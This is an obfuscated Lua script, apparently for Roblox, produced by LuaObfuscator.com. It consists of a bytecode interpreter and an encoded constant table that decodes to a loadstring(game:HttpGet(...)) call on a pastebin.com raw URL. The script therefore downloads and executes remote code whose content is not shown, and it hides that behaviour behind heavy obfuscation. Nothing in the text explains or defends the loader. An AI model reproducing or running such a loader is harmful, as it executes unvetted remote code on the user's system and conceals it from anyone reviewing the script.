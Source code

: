 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v84=0;while true do if (v84==0) then v19=v0(v3(v30,1,1));return "";end end else local v85=v2(v0(v30,16));if v19 then local v91=0;local v92;while true do if (v91==1) then return v92;end if (v91==0) then v92=v5(v85,v19);v19=nil;v91=1;end end else return v85;end end end);local function v20(v31,v32,v33) if v33 then local v86=0;local v87;while true do if (v86==(0 -0)) then v87=(v31/((5 -3)^(v32-1)))%((3 -1)^(((v33-(2 -1)) -(v32-(620 -(555 + 64)))) + (932 -(857 + (1711 -(1523 + 114)))))) ;return v87-(v87%(569 -(330 + 37 + 201))) ;end end else local v88=(929 -(214 + 713))^(v32-(1 + 0)) ;return (((v31%(v88 + v88))>=v88) and ((1 -0) + 0)) or (877 -(282 + 595)) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35=1065 -(68 + 997) ;local v36;local v37;while true do if (v35==(1271 -(226 + 1044))) then return (v37 * ((104 -47) + 199)) + v36 ;end if (v35==(0 -0)) then v36,v37=v1(v16,v18,v18 + (119 -(32 + 85)) );v18=v18 + 2 ;v35=1;end end end local function v23() local v38=0;local v39;local v40;local v41;local v42;while true do if (v38==(1 -0)) then return (v42 * 16777216) + (v41 * ((261863 -195977) -(87 + 263))) + (v40 * 256) + v39 ;end if ((180 -((1019 -(802 + 150)) + 113))==v38) then v39,v40,v41,v42=v1(v16,v18,v18 + 3 + 0 );v18=v18 + (9 -5) ;v38=1 + 0 ;end end end local function v24() local v43=0 -0 ;local v44;local v45;local v46;local v47;local v48;local v49;while true do if ((3 -(1914 -(1789 + 124)))==v43) then v48=v20(v45,16 + 5 ,1028 -(915 + 82) );v49=((v20(v45,90 -58 )==(773 -(201 + 571))) and  -1) or (1 + 0) ;v43=1141 -(116 + 1022) ;end if (v43==3) then if (v48==(0 -0)) then if (v47==(0 + 0)) then return v49 * (766 -(745 + 21)) ;else local v101=0;while true do if (v101==(1187 -(1069 + 118))) then v48=(1 + 1) -1 ;v46=0 -(0 -0) ;break;end end end elseif (v48==((1396 -1040) + 1691)) then return ((v47==(0 -0)) and (v49 * ((1 + 0)/(791 -(368 + 4 + 419))))) or (v49 * NaN) ;end return v8(v49,v48-(3214 -2191) ) * (v46 + (v47/(((16 + 4) -((1065 -(87 + 968)) + 8))^(199 -147)))) ;end if (v43==(442 -(416 + 26))) then v44=v23();v45=v23();v43=3 -2 ;end if (v43==(3 -2)) then v46=1 + 0 ;v47=(v20(v45,1 + 0 ,35 -15 ) * ((1749 -(760 + 987))^32)) + v44 ;v43=2;end end end local function v25(v50) local v51;if  not v50 then v50=v23();if (v50==(0 -0)) then return "";end end v51=v3(v16,v18,(v18 + v50) -(1 + 0) );v18=v18 + v50 ;local v52={};for v67=2 -1 , #v51 do v52[v67]=v2(v1(v3(v51,v67,v67)));end return v6(v52);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return 0;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();local v60=(function() return;end)();while true do local v69=(function() return 0;end)();while true do if (v69==(0 + 0)) then local v93=(function() return 0 -0 ;end)();while true do if (v93~=1) then else v69=(function() return 1;end)();break;end if (0==v93) then if (v53~=(1 -0)) then else v58=(function() return {v55,v56,nil,v57};end)();v59=(function() return v23();end)();v60=(function() return {};end)();for v110= #"~",v59 do local v111=(function() return 0;end)();local v112=(function() return;end)();local v113=(function() return;end)();local v114=(function() return;end)();while true do if (v111~=(2 -1)) then else v114=(function() return nil;end)();while true do if (v112==(285 -(134 + 151))) then local v168=(function() return 0;end)();while true do if (v168~=(1665 -(970 + 695))) then else v113=(function() return v21();end)();v114=(function() return nil;end)();v168=(function() return 1;end)();end if (v168==1) then v112=(function() return 1;end)();break;end end end if (v112==1) then if (v113== #"~") then v114=(function() return v21()~=(0 -0) ;end)();elseif (v113==(1992 -(582 + 1408))) then v114=(function() return v24();end)();elseif (v113== #"19(") then v114=(function() return v25();end)();end v60[v110]=(function() return v114;end)();break;end end break;end if (v111==0) then v112=(function() return 0;end)();v113=(function() return nil;end)();v111=(function() return 1;end)();end end end v53=(function() return 2;end)();end if (v53==0) then local v105=(function() return 0 -0 ;end)();while true do if (v105==(2 -0)) then v53=(function() return 1;end)();break;end if (v105==1) then v56=(function() return {};end)();v57=(function() return {};end)();v105=(function() return 7 -5 ;end)();end if (v105==(1824 -(1195 + 629))) then v54=(function() return function(v160,v161,v162) local v163=(function() return 0;end)();while true do if (v163==0) then local v170=(function() return 0 -0 ;end)();while true do if (0~=v170) then else v160[v161-#":" ]=(function() return v162();end)();return v160,v161,v162;end end end end end;end)();v55=(function() return {};end)();v105=(function() return 242 -(187 + 54) ;end)();end end end v93=(function() return 781 -(162 + 618) ;end)();end end end if (v69==1) then if (v53~=2) then else v58[ #"nil"]=(function() return v21();end)();for v102= #"}",v23() do local v103=(function() return v21();end)();if (v20(v103, #"|", #":")==0) then local v106=(function() return 0 + 0 ;end)();local v107=(function() return;end)();local v108=(function() return;end)();local v109=(function() return;end)();while true do if (1~=v106) then else local v146=(function() return 0;end)();while true do if (0~=v146) then else local v167=(function() return 0;end)();while true do if (v167==(0 + 0)) then v109=(function() return {v22(),v22(),nil,nil};end)();if (v107==0) then local v172=(function() return 0;end)();local v173=(function() return;end)();while true do if (v172==0) then v173=(function() return 0 -0 ;end)();while true do if (v173==(0 + 0)) then v109[ #"nil"]=(function() return v22();end)();v109[ #"0313"]=(function() return v22();end)();break;end end break;end end elseif (v107== #">") then v109[ #"91("]=(function() return v23();end)();elseif (v107==2) then v109[ #"91("]=(function() return v23() -(2^16) ;end)();elseif (v107== #"asd") then local v178=(function() return 0;end)();local v179=(function() return;end)();while true do if (v178==(1636 -(1373 + 263))) then v179=(function() return 0;end)();while true do if (v179==(1000 -(451 + 549))) then v109[ #"91("]=(function() return v23() -(2^16) ;end)();v109[ #"0313"]=(function() return v22();end)();break;end end break;end end end v167=(function() return 1;end)();end if (v167~=1) then else v146=(function() return 1;end)();break;end end end if (v146==1) then v106=(function() return 1 + 1 ;end)();break;end end end if ((4 -1)~=v106) then else if (v20(v108, #"nil", #"gha")== #"!") then v109[ #"http"]=(function() return v60[v109[ #"asd1"]];end)();end v55[v102]=(function() return v109;end)();break;end if ((0 -0)==v106) then local v148=(function() return 1384 -(746 + 638) ;end)();local v149=(function() return;end)();while true do if ((0 + 0)~=v148) then else v149=(function() return 0 -0 ;end)();while true do if (v149==(342 -(218 + 123))) then v106=(function() return 1582 -(1535 + 46) ;end)();break;end if (v149==(0 + 0)) then v107=(function() return v20(v103,1 + 1 , #"asd");end)();v108=(function() return v20(v103, #"xnxx",566 -(306 + 254) );end)();v149=(function() return 1 + 0 ;end)();end end break;end end end if (v106~=(3 -1)) then else if (v20(v108, #".", #",")~= #"<") then else v109[2]=(function() return v60[v109[2]];end)();end if (v20(v108,1469 -(899 + 568) ,2)== #".") then v109[ #"nil"]=(function() return v60[v109[ #"xnx"]];end)();end v106=(function() return 3;end)();end end end end for v104= #".",v23() do v56,v104,v28=(function() return v54(v56,v104,v28);end)();end return v58;end break;end end end end local function v29(v61,v62,v63) local v64=v61[(3 -2) + 0 ];local v65=v61[4 -2 ];local v66=v61[3];return function(...) local v70=v64;local v71=v65;local v72=v66;local v73=v27;local v74=604 -(268 + (1547 -(323 + 889))) ;local v75= -1;local v76={};local v77={...};local v78=v12("#",...) -(573 -(426 + 146)) ;local v79={};local v80={};for v89=0 + 0 ,v78 do if ((2460<=3134) and (v89>=v72)) then v76[v89-v72 ]=v77[v89 + 1 ];else v80[v89]=v77[v89 + (1457 -(282 + 1174)) ];end end local v81=(v78-v72) + (812 -((1149 -(361 + 219)) + 242)) ;local v82;local v83;while true do local v90=0 -0 ;while true do if ((v90==(1 + 0)) or (3275>=4794)) then if (v83<=(1027 -(706 + 318))) then if (v83<=(1252 -(721 + 530))) then if ((1484==1484) and (v83==(1271 -(945 + 326)))) then v80[v82[4 -2 ]]={};else v80[v82[2]]();end elseif (v83>(2 + 0)) then do return;end else local v116;local v117,v118;local v119;local v120;v80[v82[2]]={};v74=v74 + (701 -(271 + 429)) ;v82=v70[v74];v80[v82[2 + 0 ]]=v63[v82[1503 -(1408 + 92) ]];v74=v74 + (1087 -((781 -(53 + 267)) + 625)) ;v82=v70[v74];v80[v82[1290 -(993 + 295) ]]=v63[v82[1 + 2 ]];v74=v74 + (1172 -(418 + 753)) ;v82=v70[v74];v120=v82[1 + 1 ];v119=v80[v82[1 + 2 ]];v80[v120 + 1 + 0 ]=v119;v80[v120]=v119[v82[2 + 2 ]];v74=v74 + 1 ;v82=v70[v74];v80[v82[(120 + 411) -((819 -(15 + 398)) + 123) ]]=v82[1772 -(1749 + 20) ];v74=v74 + 1 + 0 ;v82=v70[v74];v120=v82[2];v117,v118=v73(v80[v120](v13(v80,v120 + ((2305 -(18 + 964)) -(1249 + 73)) ,v82[2 + 1 ])));v75=(v118 + v120) -(1146 -(466 + 679)) ;v116=(0 -0) -(0 + 0) ;for v150=v120,v75 do v116=v116 + (2 -1) ;v80[v150]=v117[v116];end v74=v74 + (1901 -(106 + 1794)) ;v82=v70[v74];v120=v82[2];v80[v120]=v80[v120](v13(v80,v120 + 1 + 0 ,v75));v74=v74 + 1 + 0 + 0 ;v82=v70[v74];v80[v82[2]]();v74=v74 + ((852 -(20 + 830)) -1) ;v82=v70[v74];do return;end end elseif ((1432<3555) and (v83<=(13 -8))) then if (v83==((93 + 25) -((130 -(116 + 10)) + 110))) then local v135=v82[586 -(57 + 527) ];v80[v135]=v80[v135](v13(v80,v135 + (1428 -(41 + 1386)) ,v75));else local v137=v82[105 -(17 + 86) ];local v138=v80[v82[3 + 0 ]];v80[v137 + (1 -0) ]=v138;v80[v137]=v138[v82[4]];end elseif ((v83<=6) or (1483==1830)) then local v142=v82[5 -3 ];local v143,v144=v73(v80[v142](v13(v80,v142 + (167 -(122 + 44)) ,v82[3])));v75=(v144 + v142) -(1 -0) ;local v145=0 -0 ;for v153=v142,v75 do v145=v145 + 1 ;v80[v153]=v143[v145];end elseif (v83>(6 + 1)) then v80[v82[2]]=v82[1 + 2 ];else v80[v82[2]]=v63[v82[3]];end v74=v74 + (1 -0) ;break;end if ((v90==(65 -(30 + 35))) or (3082==3612) or (1065>3578)) then v82=v70[v74];v83=v82[1 + 0 ];v90=1258 -(1043 + 214) ;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F747A673455454B6900094Q00027Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
